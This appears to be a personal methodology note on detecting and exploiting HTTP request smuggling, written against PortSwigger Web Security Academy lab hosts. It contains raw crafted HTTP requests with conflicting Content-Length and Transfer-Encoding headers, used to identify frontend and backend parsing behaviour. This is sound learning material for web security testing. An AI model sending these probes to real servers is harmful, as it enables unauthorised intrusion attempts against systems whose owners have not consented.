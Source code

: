 ### Things to keep in mind to successfully exploit http request smuggling attacks.
```
1. Make sure to use HTTP/1.1 before trying to exploit because HTTP/2 doesn't support that.
In the inspector tab in burp , change to HTTP/1.1 from request attributes

2. If you are trying to using CL.TE , make sure you include connection: keep-alive header,
cause the backend server will only include that smuggled part in next request over same connection and
 using connection: keep-alive header will keep connection over same network.
```
### Identify if the frontend is using TE
send the request with  invalid transfer encoding request and see if it respond with bad request. If the response is invalid or bad request then the frontend is rejecting the invalid TE request. So, it confirms TE in frontend
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

3
abc
x

```
response comes back as
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
---
### Identifying if backend is using CE
send the below request and see the server timeout response from the server
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

x
```
![Screenshot from 2023-10-31 18-22-58](https://github.com/Sameer484/methodology/assets/110039044/0b867e3e-217f-48ef-b76f-96daea24ba74)

### use this picture to identify the type of frontend and backend

![Screenshot from 2023-10-31 18-18-35](https://github.com/Sameer484/methodology/assets/110039044/835c41e8-a5be-4975-a793-29abe1053668)

